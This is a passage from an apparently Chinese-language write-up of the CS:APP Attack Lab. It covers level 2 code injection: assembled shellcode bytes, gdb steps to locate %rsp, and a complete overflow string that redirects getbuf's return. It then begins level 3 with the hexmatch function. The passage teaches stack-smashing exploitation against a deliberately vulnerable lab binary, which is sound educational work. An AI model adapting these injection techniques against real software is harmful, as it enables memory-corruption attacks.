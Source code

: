 ```bash
gcc -c level2.s
objdump -d level2.o
```

得到：

```bash
0000000000000000 <.text>:
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   7:	68 ec 17 40 00       	pushq  $0x4017ec
   c:	c3                   	retq  
```

上述则为我们需要往getbuf中插入的字节序列，注意在最后要加入返回的地址

3. 求`%rsp`地址

`%rsp`作为栈帧的首地址，需要从上一个调用的`getbuf()`中获得，这里需要对`getbuf`设置断点才行，因为`getbuf`后还会执行其余的流程

- 设置断点

```bash
break getbuf % 设置第一个断点
run -q			 % 运行
disas        % 看看这个断点的反汇编
stepi				 % 到下一个断点，此时返回的%rsp即为
print /x $rsp% 打印$rsp的地址
```

得到`%rsp`的地址为：`0x5561dc78`，记住小端序

4. 最后结果

```bash
48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```

## 2.4 level 3

> phase 3 与phase 2 一样，需要插入代码，但是需要将字符串作为变量传入
>
> 要求：针对ctarget函数，修改函数test来调用getbuf的返回地址，使getbuf返回touch3函数而不是test

1. 先来看看touch3 做了什么

> touch3 中需要hexmatch的协助

- **hexmatch**

```c++
int hexmatch(unsigned val, char *sval){
  char cbuf[110];
  /*  Make position of check string unpredictable */
  char *s = cbuf + random()%100; 
  sprintf(s, "%.8x", val);
  return strncmp(sval, s, 9) == 0;
}
```
